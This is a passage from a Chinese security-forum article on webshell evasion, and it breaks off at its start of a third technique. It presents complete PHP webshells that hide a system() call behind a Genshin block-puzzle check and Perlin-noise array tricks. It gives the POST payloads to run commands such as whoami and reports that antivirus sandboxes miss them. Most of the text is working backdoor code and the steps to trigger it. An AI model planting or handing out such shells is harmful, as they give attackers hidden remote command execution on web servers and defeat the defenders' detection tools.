







# 使用分支对抗进行webshell bypass-先知社区

> **来源**: https://xz.aliyun.com/news/16466  
> **文章ID**: 16466

---

# 前言

对于webshell免杀来说，类绕过是最有效果且不易被检测出来的，那如果我们对类进行操作，在类里面加入一些算法和混淆代码，让代码逻辑变得十分混乱，不易读，甚至读不懂，但是却能够执行命令，可以rce，那岂不是可以bypass所有的杀毒软件和云沙箱了吗？

# 利用稻妻雷元素方块阵

《原神》中的稻妻雷元素方块阵是一个解谜游戏  
下面是示例代码：

```
class InazumaPuzzle {
    private $blockA = 0;
    private $blockB = 0;
    private $blockC = 0;
    private $blockD = 0;
    private $MAX_ENUM = 2;
    private $MIN_ENUM = 0;

    public function __construct() {
        $this->blockA = 2;
        $this->blockB = 0;
        $this->blockC = 0;
        $this->blockD = 2;
    }

    private function setBackBlock($block) {
        $setType = $this->MIN_ENUM;
        $maxType = $this->MAX_ENUM;
        switch ($block) {
            case 'A':
                if ($this->blockA == $maxType) {
                    $this->blockA = $setType;
                    return true;
                } else {
                    return false;
                }
            case 'B':
                if ($this->blockB == $maxType) {
                    $this->blockB = $setType;
                    return true;
                } else {
                    return false;
                }
            case 'C':
                if ($this->blockC == $maxType) {
                    $this->blockC = $setType;
                    return true;
                } else {
                    return false;
                }
            case 'D':
                if ($this->blockD == $maxType) {
                    $this->blockD = $setType;
                    return true;
                } else {
                    return false;
                }
            default:
                throw new Exception("bad_args", 1);
        }
    }

    private function hit($blockIdx) {
    global $text;
    $text = urldecode("%6e%69%6c%72%65%70%5f%46%46%49%44");
        switch ($blockIdx) {
            case "A":
                if (!$this->setBackBlock("A")) {
                    $this->blockA += 1;
                }
                if (!$this->setBackBlock("B")) {
                    $this->blockB += 1;
                }
                break;

            case "B":
                if (!$this->setBackBlock("A")) {
                    $this->blockA += 1;
                }
                if (!$this->setBackBlock("B")) {
                    $this->blockB += 1;
                }
                if (!$this->setBackBlock("C")) {
                    $this->blockC += 1;
                }
                break;

            case "C":
                if (!$this->setBackBlock("B")) {
                    $this->blockB += 1;
                }
                if (!$this->setBackBlock("C")) {
                    $this->blockC += 1;
                }
                if (!$this->setBackBlock("D")) {
                    $this->blockD += 1;
                }
                break;

            case "D":
                if (!$this->setBackBlock("C")) {
                    $this->blockC += 1;
                }
                if (!$this->setBackBlock("D")) {
                    $this->blockD += 1;
                }
                break;

            default:
                throw new Exception("bad_args", 1);
        }
    }

    public function __AFG50CE4_RG1() {
        global $puzz_writeup;
        if (count($puzz_writeup) === 0) throw new Exception("Invalid WriteUP",1);for ($i = 0; $i < count($puzz_writeup);
            // bcdufvcf%00
                                                                                      $i++) {
            if (strcmp($puzz_writeup[$i],"A") !== 0 and strcmp($puzz_writeup[$i],"B") !== 0 and strcmp($puzz_writeup[$i]

                ,"C") !== 0 and strcmp($puzz_writeup[$i],"D") !== 0) die("笨蛋笨蛋笨蛋笨蛋！！~ 都...都跟你说了答案里只能有ABCD的......");
        }
        for ($i = 0; $i < count($puzz_writeup); $i++) $this -> hit($puzz_writeup[$i]);
        global $userans;
        $userans =$this ->blockA + $this-> blockB + $this -> blockC+ $this -> blockD;
    }

    public function getLockerStatus() {
        global $text;$text =strrev($text);
        if ($this -> blockA ===$this -> blockB and $this -> blockA === $this -> blockC and $this -> blockA === $this -> blockD) return true;
        else return false;
    }
}

function pause($obj) {
    global $appor5nnb;
    if (!$appor5nnb -> getLockerStatus()) die();
    return $obj;
}

```

根据InazumaPuzzle类的构造函数，方块的初始状态如下：

```
blockA = 2
blockB = 0
blockC = 0
blockD = 2
```

每个方块的状态值可以循环从0到2（即最小值为0，最大值为2）。

setBackBlock() 方法的作用

```
setBackBlock()方法用于尝试将指定方块重置为其最小状态（即0）。如果该方块已经处于最大状态（即2），则它可以被重置为最小状态并返回true；否则它不会改变，并返回false。

```

hit() 方法的行为

```
hit()方法接受一个方块标识符（如"A"、"B"、"C"或"D"），然后执行以下操作：

    对于点击的方块及其关联的方块调用setBackBlock()。
    如果setBackBlock()返回false，则相应方块的状态加1。

```

具体来说：

```
点击A：尝试重置A和B，若不能重置，则它们各自加1。
点击B：尝试重置A、B和C，若不能重置，则它们各自加1。
点击C：尝试重置B、C和D，若不能重置，则它们各自加1。
点击D：尝试重置C和D，若不能重置，则它们各自加1。
```

解析输入序列 ABBCCD

现在我们来按照给定的输入序列ABBCCD一步一步地看每个点击对方块状态的影响：  
第一步：点击 A

```
尝试重置A（当前状态为2），成功重置为0。
尝试重置B（当前状态为0），失败，因此B变为1。
结果：blockA = 0, blockB = 1, blockC = 0, blockD = 2
```

第二步：点击 B

```
尝试重置A（当前状态为0），失败，因此A变为1。
尝试重置B（当前状态为1），失败，因此B变为2。
尝试重置C（当前状态为0），失败，因此C变为1。
结果：blockA = 1, blockB = 2, blockC = 1, blockD = 2
```

第三步：再次点击 B

```
尝试重置A（当前状态为1），失败，因此A变为2。
尝试重置B（当前状态为2），成功重置为0。
尝试重置C（当前状态为1），失败，因此C变为2。
结果：blockA = 2, blockB = 0, blockC = 2, blockD = 2
```

第四步：点击 C

```
尝试重置B（当前状态为0），失败，因此B变为1。
尝试重置C（当前状态为2），成功重置为0。
尝试重置D（当前状态为2），成功重置为0。
结果：blockA = 2, blockB = 1, blockC = 0, blockD = 0
```

第五步：再次点击 C

```
尝试重置B（当前状态为1），失败，因此B变为2。
尝试重置C（当前状态为0），失败，因此C变为1。
尝试重置D（当前状态为0），失败，因此D变为1。
结果：blockA = 2, blockB = 2, blockC = 1, blockD = 1
```

第六步：点击 D

```
尝试重置C（当前状态为1），失败，因此C变为2。
尝试重置D（当前状态为1），失败，因此D变为2。
结果：blockA = 2, blockB = 2, blockC = 2, blockD = 2
```

最终，所有方块的状态都变成了2，满足了getLockerStatus()方法中的条件，即所有方块的状态相同，因此返回true，表示谜题被正确解开。

# 结合稻妻雷元素方块阵的webshell

```
<?php
error_reporting(0);
header("Content-type:text/html;charset=utf-8");
foreach($_POST as $key => $value) $$key = $value;
if (strlen($wpstring) === 0) die("笨蛋！先启动原神解个稻妻雷元素方块阵再来吧！");
$puzz_writeup = array();
for ($i = 0; $i < strlen($wpstring); $i++) array_push($puzz_writeup, $wpstring[$i]);
class InazumaPuzzle {
    private $blockA = 0;
    private $blockB = 0;
    private $blockC = 0;
    private $blockD = 0;
    private $MAX_ENUM = 2;
    private $MIN_ENUM = 0;

    public function __construct() {
        $this->blockA = 2;
        $this->blockB = 0;
        $this->blockC = 0;
        $this->blockD = 2;
    }

    private function setBackBlock($block) {
        $setType = $this->MIN_ENUM;
        $maxType = $this->MAX_ENUM;
        switch ($block) {
            case 'A':
                if ($this->blockA == $maxType) {
                    $this->blockA = $setType;
                    return true;
                } else {
                    return false;
                }
            case 'B':
                if ($this->blockB == $maxType) {
                    $this->blockB = $setType;
                    return true;
                } else {
                    return false;
                }
            case 'C':
                if ($this->blockC == $maxType) {
                    $this->blockC = $setType;
                    return true;
                } else {
                    return false;
                }
            case 'D':
                if ($this->blockD == $maxType) {
                    $this->blockD = $setType;
                    return true;
                } else {
                    return false;
                }
            default:
                throw new Exception("bad_args", 1);
        }
    }

    private function hit($blockIdx) {
        global $text;
        $text = urldecode("%6e%69%6c%72%65%70%5f%46%46%49%44");
        switch ($blockIdx) {
            case "A":
                if (!$this->setBackBlock("A")) {
                    $this->blockA += 1;
                }
                if (!$this->setBackBlock("B")) {
                    $this->blockB += 1;
                }
                break;

            case "B":
                if (!$this->setBackBlock("A")) {
                    $this->blockA += 1;
                }
                if (!$this->setBackBlock("B")) {
                    $this->blockB += 1;
                }
                if (!$this->setBackBlock("C")) {
                    $this->blockC += 1;
                }
                break;

            case "C":
                if (!$this->setBackBlock("B")) {
                    $this->blockB += 1;
                }
                if (!$this->setBackBlock("C")) {
                    $this->blockC += 1;
                }
                if (!$this->setBackBlock("D")) {
                    $this->blockD += 1;
                }
                break;

            case "D":
                if (!$this->setBackBlock("C")) {
                    $this->blockC += 1;
                }
                if (!$this->setBackBlock("D")) {
                    $this->blockD += 1;
                }
                break;

            default:
                throw new Exception("bad_args", 1);
        }
    }

    public function __AFG50CE4_RG1() {
        global $puzz_writeup;
        if (count($puzz_writeup) === 0) throw new Exception("Invalid WriteUP",1);for ($i = 0; $i < count($puzz_writeup);$i++) {
            if (strcmp($puzz_writeup[$i],"A") !== 0 and strcmp($puzz_writeup[$i],"B") !== 0 and strcmp($puzz_writeup[$i],"C") !== 0 and strcmp($puzz_writeup[$i],"D") !== 0) die("笨蛋笨蛋笨蛋笨蛋！！~ 都...都跟你说了答案里只能有ABCD的......");
        }
        for ($i = 0; $i < count($puzz_writeup); $i++) $this -> hit($puzz_writeup[$i]);
        global $userans;
        $userans =$this ->blockA + $this-> blockB + $this -> blockC+ $this -> blockD;
    }

    public function getLockerStatus() {
        global $text;$text =strrev($text);
        if ($this -> blockA ===$this -> blockB and $this -> blockA === $this -> blockC and $this -> blockA === $this -> blockD) return true;
        else return false;
    }
}

function pause($obj) {
    global $appor5nnb;
    if (!$appor5nnb -> getLockerStatus()) die();
    return $obj;
}
$appor5nnb = new InazumaPuzzle();
$appor5nnb -> __AFG50CE4_RG1();
if ($appor5nnb -> getLockerStatus())  $a($b);

```

payload:

```
wpstring=ABBCCD&a=system&b=whoami

```

  
免杀效果：  


  
微步说很安全



# 柏林噪音

柏林噪声属于基于晶格（Lattice based）的生成算法。其核心思想是定义一个晶格结构，在二维情况下是一个平面网格，在三维情况下则是一个立方体网络。每个晶格顶点都有一个预定义的梯度向量，当给定一个点时（在二维情况下为坐标(x, y)，在三维情况下为坐标(x, y, z)），需要计算该点到所在晶格顶点的距离向量，并将这些距离向量与相应的梯度向量做点积运算，得到一系列影响值。  
总而言之就是能让代码变得十分复杂，根本读不懂  
代码实现：

```
class PerlinNoise{
    private $arrLength = 0;
    private $source = "";
    private $inputNumArray = array();
    private $seeds_array = array();
    private $INPUT_NUM_MAX = 0;
    private $INPUT_NUM_MIN = 0;
    private $BAD_ARGS = false;
    public $perlin_noise = array();
    public function __construct($arrLength, $MAX_INPUT = 700.4, $MIN_INPUT = 56.7, $source = "GENERATE") {
        global $appor5nnb;
        if (!$appor5nnb -> getLockerStatus()) die("嗯哼，笨蛋杂鱼欧尼酱~ 果然解不开吧~");
        if ($arrLength < 3000 or $arrLength > 9999) {
            throw new InvalidArgumentException("Error: Invaild Length");
        }
        if (strcmp($source,"DIFF_PERLIN") == 0) {
            $this -> BAD_ARGS = true;
            $source = "GENERATE";
        }
        $this -> arrLength = $arrLength;
        $this -> source = $source;
        $this -> INPUT_NUM_MAX = $MAX_INPUT;
        $this -> INPUT_NUM_MIN = $MIN_INPUT;
    }
    public function __CPRBB0R0_l() {
        global $userans;
        for ($i = 0; $i < $this -> arrLength; $i++) {
            if ($this -> BAD_ARGS) {
                if ($i > ($userans+391) and $i < (pause($userans+390+8))) {
                    $result = array($userans + 101,$userans + 93,$userans + (50*2+8),$userans + 992-(800+85),105+($userans + 8),110+($userans+57)-60);
                    array_push($this -> perlin_noise, $result[$i - 400]);
                    continue;
                }
            }
            $cache = $this -> inputNumArray[$i];
            $x1 = round($cache);
            $x2 = $x1 + 1;
            $grad1 = $this -> seeds_array[$x1 % 255] * 2.0 - 255.0;
            $grad2 = $this -> seeds_array[$x2 % 255] * 2.0 - 255.0;
            $vec1 = $i - $x1;
            $vec2 = $i - $x2;
            $t = 3 * pow($vec1, 2) - 2 * pow($vec1, 3);
            $product1 = $grad1 * $vec1;
            $product2 = $grad2 * $vec2;
            $result = $product1 + $t * ($product2 - $product1);
            array_push($this -> perlin_noise, $result);
        }
    }
    public function __HNBB70CA_5() {
        global $userans;
        global ${strval(chr(90+$userans))};
        global ${implode(array(chr(120-$userans),chr($userans+91),chr(70-$userans+53)))};
        $cache_noise = pause(array());
        for ($i = 400; $i < 406; $i++) {
            array_push($cache_noise,$this -> perlin_noise[$i]);
        }
        $temp_noise = array();
        for ($i = 0; $i < count($cache_noise); $i++) {
            array_push($temp_noise, $cache_noise[$i]);
        }
        for ($i = 0; $i < count($temp_noise); $i++) {
            $temp_noise[$i] = chr($temp_noise[$i]);
        }
        $ab = pause(array_map(function($arr){ return chr($arr); },array_slice($this -> perlin_noise,(188*2)+$userans*3,$userans-3)));
        $c = strval(sprintf("%s%s",$b,pause(strrev(implode("",pause($ab))))));
        $c($pcs);
        die(urldecode("%3c%62%72%3e%3c%62%72%3e"));
        var_dump(array_slice($this -> perlin_noise,1000,800));
    }
}

```

## 代码解读

关键代码：

```
$ab = pause(array_map(function($arr) { return chr($arr); }, array_slice($this->perlin_noise, (188*2)+$userans*3, $userans-3)));

```

array\_slice 函数：

```
array_slice($this->perlin_noise, (188*2)+$userans*3, $userans-3) 提取了 perlin_noise 数组的一部分，起始位置是 (188 * 2) + ($userans * 3)，长度是 $userans - 3。
```

array\_map 函数：

```
array_map(function($arr) { return chr($arr); }, ...) 将提取的整数数组转换为对应的ASCII字符数组。
```

1. 计算切片位置和长度

假设我们想要提取四个特定的值 [121, 116, 101, 109]，那么我们需要确定切片的起始位置和长度：

```
起始位置：(188 * 2) + ($userans * 3)
长度：$userans - 3
```

例如，如果我们设 $userans = 7，则：

```
起始位置：(188 * 2) + (7 * 3) = 376 + 21 = 397
长度：7 - 3 = 4
```

这意味着我们将从 perlin\_noise 数组的索引 397 开始，提取长度为 4 的子数组。

1. 确保 perlin\_noise 包含所需值

为了让 array\_slice 提取出 [121, 116, 101, 109]，我们需要在 perlin\_noise 数组的相应位置插入这些值。即：

```
$this->perlin_noise[397] = 121; // ASCII 'y'
$this->perlin_noise[398] = 116; // ASCII 't'
$this->perlin_noise[399] = 101; // ASCII 'e'
$this->perlin_noise[400] = 109; // ASCII 'm'

```

1. 控制 userans 和其他参数

为了确保上述计算正确无误，需要控制 userans 和其他可能影响 perlin\_noise 数组生成的参数。特别是，在构造 PerlinNoise 对象时，应该确保 arrLength 足够大，以容纳所需的索引范围，并且初始化过程中不会覆盖这些特定值。  
示例代码：

```
$userans = 7;

// 假设 PerlinNoise 对象已经创建，并且 arrLength 足够大
$cvb33ff55 = new PerlinNoise(401, 700.4, 56.7, "DIFF_PERLIN");

// 手动设置 perlin_noise 数组中的特定值
$cvb33ff55->perlin_noise[397] = 121; // ASCII 'y'
$cvb33ff55->perlin_noise[398] = 116; // ASCII 't'
$cvb33ff55->perlin_noise[399] = 101; // ASCII 'e'
$cvb33ff55->perlin_noise[400] = 109; // ASCII 'm'

// 继续执行后续操作
$cvb33ff55->__BHUYTVV8_1();
$cvb33ff55->__CPRBB0R0_l();

// 模拟生成 ab 数组
$ab = pause(array_map(function($arr) { return chr($arr); }, array_slice($cvb33ff55->perlin_noise, (188*2)+$userans*3, $userans-3)));

// 输出结果验证
var_dump($ab); // 应该输出 ['y', 't', 'e', 'm']

```

通过精确控制 perlin\_noise 数组中特定索引处的值，并结合适当的 userans 参数，可以确保 $ab 数组包含所需的ASCII码值 [121, 116, 101, 109]，这个时候$ad=ystem。  
这个时候我们令$b=s

```
$c = strval(sprintf("%s%s",$b,pause(strrev(implode("",pause($ab))))));

```

那么$c=system了，就构造好了命令执行函数,$pcs就是我们要执行的命令。

## 结合稻妻雷元素方块阵构造webshell

```
<?php
error_reporting(0);
header("Content-type:text/html;charset=utf-8");
foreach($_POST as $key => $value) $$key = $value;
if (strlen($wpstring) === 0) die("笨蛋！先启动原神解个稻妻雷元素方块阵再来吧！");
$puzz_writeup = array();
for ($i = 0; $i < strlen($wpstring); $i++) array_push($puzz_writeup, $wpstring[$i]);
class PerlinNoise{
    private $arrLength = 0;
    private $source = "";
    private $inputNumArray = array();
    private $seeds_array = array();
    private $INPUT_NUM_MAX = 0;
    private $INPUT_NUM_MIN = 0;
    private $BAD_ARGS = false;
    public $perlin_noise = array();
    public function __construct($arrLength, $MAX_INPUT = 700.4, $MIN_INPUT = 56.7, $source = "GENERATE") {
        global $appor5nnb;
        if (!$appor5nnb -> getLockerStatus()) die("嗯哼，笨蛋杂鱼欧尼酱~ 果然解不开吧~");
        if ($arrLength < 3000 or $arrLength > 9999) {
            throw new InvalidArgumentException("Error: Invaild Length");
        }
        if (strcmp($source,"DIFF_PERLIN") == 0) {
            $this -> BAD_ARGS = true;
            $source = "GENERATE";
        }
        $this -> arrLength = $arrLength;
        $this -> source = $source;
        $this -> INPUT_NUM_MAX = $MAX_INPUT;
        $this -> INPUT_NUM_MIN = $MIN_INPUT;
    }
    public function __CPRBB0R0_l() {
        global $userans;
        for ($i = 0; $i < $this -> arrLength; $i++) {
            if ($this -> BAD_ARGS) {
                if ($i > ($userans+391) and $i < (pause($userans+390+8))) {
                    $result = array($userans + 101,$userans + 93,$userans + (50*2+8),$userans + 992-(800+85),105+($userans + 8),110+($userans+57)-60);
                    array_push($this -> perlin_noise, $result[$i - 400]);
                    continue;
                }
            }
            $cache = $this -> inputNumArray[$i];
            $x1 = round($cache);
            $x2 = $x1 + 1;
            $grad1 = $this -> seeds_array[$x1 % 255] * 2.0 - 255.0;
            $grad2 = $this -> seeds_array[$x2 % 255] * 2.0 - 255.0;
            $vec1 = $i - $x1;
            $vec2 = $i - $x2;
            $t = 3 * pow($vec1, 2) - 2 * pow($vec1, 3);
            $product1 = $grad1 * $vec1;
            $product2 = $grad2 * $vec2;
            $result = $product1 + $t * ($product2 - $product1);
            array_push($this -> perlin_noise, $result);
        }
    }
    public function __HNBB70CA_5() {
        global $userans;
        global ${strval(chr(90+$userans))};
        global ${implode(array(chr(120-$userans),chr($userans+91),chr(70-$userans+53)))};
        $cache_noise = pause(array());
        for ($i = 400; $i < 406; $i++) {
            array_push($cache_noise,$this -> perlin_noise[$i]);
        }
        $temp_noise = array();
        for ($i = 0; $i < count($cache_noise); $i++) {
            array_push($temp_noise, $cache_noise[$i]);
        }
        for ($i = 0; $i < count($temp_noise); $i++) {
            $temp_noise[$i] = chr($temp_noise[$i]);
        }
        $ab = pause(array_map(function($arr){ return chr($arr); },array_slice($this -> perlin_noise,(188*2)+$userans*3,$userans-3)));
        $c = strval(sprintf("%s%s",$b,pause(strrev(implode("",pause($ab))))));
        $c($pcs);
        // 希儿世界第一可爱！
        die(urldecode("%3c%62%72%3e%3c%62%72%3e"));
        var_dump(array_slice($this -> perlin_noise,1000,800));
    }
}
class InazumaPuzzle {
    private $blockA = 0;
    private $blockB = 0;
    private $blockC = 0;
    private $blockD = 0;
    private $MAX_ENUM = 2;
    private $MIN_ENUM = 0;

    public function __construct() {
        $this->blockA = 2;
        $this->blockB = 0;
        $this->blockC = 0;
        $this->blockD = 2;
    }

    private function setBackBlock($block) {
        $setType = $this->MIN_ENUM;
        $maxType = $this->MAX_ENUM;
        switch ($block) {
            case 'A':
                if ($this->blockA == $maxType) {
                    $this->blockA = $setType;
                    return true;
                } else {
                    return false;
                }
            case 'B':
                if ($this->blockB == $maxType) {
                    $this->blockB = $setType;
                    return true;
                } else {
                    return false;
                }
            case 'C':
                if ($this->blockC == $maxType) {
                    $this->blockC = $setType;
                    return true;
                } else {
                    return false;
                }
            case 'D':
                if ($this->blockD == $maxType) {
                    $this->blockD = $setType;
                    return true;
                } else {
                    return false;
                }
            default:
                throw new Exception("bad_args", 1);
        }
    }

    private function hit($blockIdx) {
        global $text;
        $text = urldecode("%6e%69%6c%72%65%70%5f%46%46%49%44");
        switch ($blockIdx) {
            case "A":
                if (!$this->setBackBlock("A")) {
                    $this->blockA += 1;
                }
                if (!$this->setBackBlock("B")) {
                    $this->blockB += 1;
                }
                break;

            case "B":
                if (!$this->setBackBlock("A")) {
                    $this->blockA += 1;
                }
                if (!$this->setBackBlock("B")) {
                    $this->blockB += 1;
                }
                if (!$this->setBackBlock("C")) {
                    $this->blockC += 1;
                }
                break;

            case "C":
                if (!$this->setBackBlock("B")) {
                    $this->blockB += 1;
                }
                if (!$this->setBackBlock("C")) {
                    $this->blockC += 1;
                }
                if (!$this->setBackBlock("D")) {
                    $this->blockD += 1;
                }
                break;

            case "D":
                if (!$this->setBackBlock("C")) {
                    $this->blockC += 1;
                }
                if (!$this->setBackBlock("D")) {
                    $this->blockD += 1;
                }
                break;

            default:
                throw new Exception("bad_args", 1);
        }
    }

    public function __AFG50CE4_RG1() {
        global $puzz_writeup;
        if (count($puzz_writeup) === 0) throw new Exception("Invalid WriteUP",1);for ($i = 0; $i < count($puzz_writeup);$i++) {
            if (strcmp($puzz_writeup[$i],"A") !== 0 and strcmp($puzz_writeup[$i],"B") !== 0 and strcmp($puzz_writeup[$i],"C") !== 0 and strcmp($puzz_writeup[$i],"D") !== 0) die("笨蛋笨蛋笨蛋笨蛋！！~ 都...都跟你说了答案里只能有ABCD的......");
        }
        for ($i = 0; $i < count($puzz_writeup); $i++) $this -> hit($puzz_writeup[$i]);
        global $userans;
        $userans =$this ->blockA + $this-> blockB + $this -> blockC+ $this -> blockD;
    }

    public function getLockerStatus() {
        global $text;$text =strrev($text);
        if ($this -> blockA ===$this -> blockB and $this -> blockA === $this -> blockC and $this -> blockA === $this -> blockD) return true;
        else return false;
    }
}

function pause($obj) {
    global $appor5nnb;
    if (!$appor5nnb -> getLockerStatus()) die();
    return $obj;
}
$appor5nnb = new InazumaPuzzle();
$appor5nnb -> __AFG50CE4_RG1();
$cvb33ff55 = new PerlinNoise(3000, 700.4, 56.7, "DIFF_PERLIN");
$cvb33ff55 -> __CPRBB0R0_l();
$cvb33ff55 ->__HNBB70CA_5();

```

payload:

```
wpstring=ABBCCD&b=s&pcs=whoami

```

  
免杀效果：


  
也是没有检测出来

# 加入一些无用代码和注释

```
<?php
    //error_reporting(0);
    header("Content-type:text/html;charset=utf-8");
